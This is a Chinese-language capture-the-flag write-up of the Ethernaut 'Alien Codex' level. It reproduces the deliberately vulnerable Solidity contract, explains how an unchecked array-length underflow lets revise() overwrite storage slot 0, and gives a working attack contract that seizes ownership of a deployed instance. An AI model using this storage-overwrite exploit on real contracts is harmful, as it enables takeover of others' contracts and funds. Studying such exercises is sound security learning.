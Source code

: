 # Alien Codex

## 题目

目标：声明所有权

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

import '../helpers/Ownable-05.sol';

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

## 分析

本题有个import，然后继承了父类。import有问题，我们不import，直接写进来吧如下代码：

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.5.0;

contract Ownable {
    address private _owner;

    event OwnershipTransferred(address indexed previousOwner, address indexed newOwner);

    constructor () internal {
        _owner = msg.sender;
    }

    function owner() public view returns (address) {
        return _owner;
    }

    modifier onlyOwner() {
        require(isOwner(), "Ownable: caller is not the owner");
        _;
    }

    function isOwner() public view returns (bool) {
        return msg.sender == _owner;
    }

    function renounceOwnership() public onlyOwner {
        emit OwnershipTransferred(_owner, address(0));
        _owner = address(0);
    }

    function transferOwnership(address newOwner) public onlyOwner {
        _transferOwnership(newOwner);
    }


    function _transferOwnership(address newOwner) internal {
        require(newOwner != address(0), "Ownable: new owner is the zero address");
        emit OwnershipTransferred(_owner, newOwner);
        _owner = newOwner;
    }
}

contract AlienCodex is Ownable {

  bool public contact;
  bytes32[] public codex;

  modifier contacted() {
    assert(contact);
    _;
  }
  
  function make_contact() public {
    contact = true;
  }

  function record(bytes32 _content) contacted public {
    codex.push(_content);
  }

  function retract() contacted public {
    codex.length--;
  }

  function revise(uint i, bytes32 _content) contacted public {
    codex[i] = _content;
  }
}
```

我们发现，需要声明的所有权在父类中Ownable的_owner。但是我们发现，AlienCodex当中没用任何一个方法可以直接修改owner的值，但是有一个边长数组`bytes32[] public codex;`，并且有一系列方法可以操作它。

关键点：retract()方法直接将数组长度-1，然而没做任何越界处理。因此，如果初始状态codex=0，那么调用一次，就直接越界为0-1=2^256-1，即length=2^256-1。此时codex数组就包揽了AlienCodex在EVM所有的插槽！想修改AlienCodex的任何值，都可以通过codex这个数组来修改，我们可以通过revise()这个方法来修改

AlienCodex继承了Ownable，`_owner`在父类，那么`_owner`在AlienCodex中就是位于slot 0。那么我们通过codex来修改slot 0 的数据即可。

动态数组存储：keccak256(slot) + index

- slot 0：address private _owner;和bool public contact;
- slot 1：bytes32[] public codex;

codex的第一个元素位于slot keccak256(1) + 0，第二个元素位于slot keccak256(1) + 1，如此类推。

codex数组有2^256个元素，其第一个元素就是整个EVM存储大小2^256个存储插槽的slot 0，就是我们的`_owner`，算式如下：

```
0 = keccak256(slot 1) + index
```

index就是我们要找的位置，重新排列一下，亦即︰

```
index = 0 - keccak256(slot 1)
```

1. 调用make_contact()，先将bool public contact;设置为true，满足modifier条件
2. 调用retract()，使codex越界，范围变成0~(2^256)-1。
3. 调用revise方法修改数据

## 攻击代码

```solidity
contract Hack {
    AlienCodex alienCodex = AlienCodex(0x8943c11061d211E6cb6D28c70af100f1F3805aC6);
    
    function attack() public {
        alienCodex.make_contact();        
        alienCodex.retract();    
        uint index = uint256(0) - uint256(keccak256(abi.encodePacked(uint256(1))));
        //下面这种写法也行
        //uint index = uint256(2)**uint256(256) - uint256(keccak256(abi.encodePacked(uint256(1))));
        alienCodex.revise(index, bytes32(uint256(uint160(msg.sender))));
    }

}
```

## 做题

获取实例，攻击

![](https://moe.photo/images/2022/12/28/image-20221228164842396.png)

通过

![](https://moe.photo/images/2022/12/28/image-20221228164857112.png)

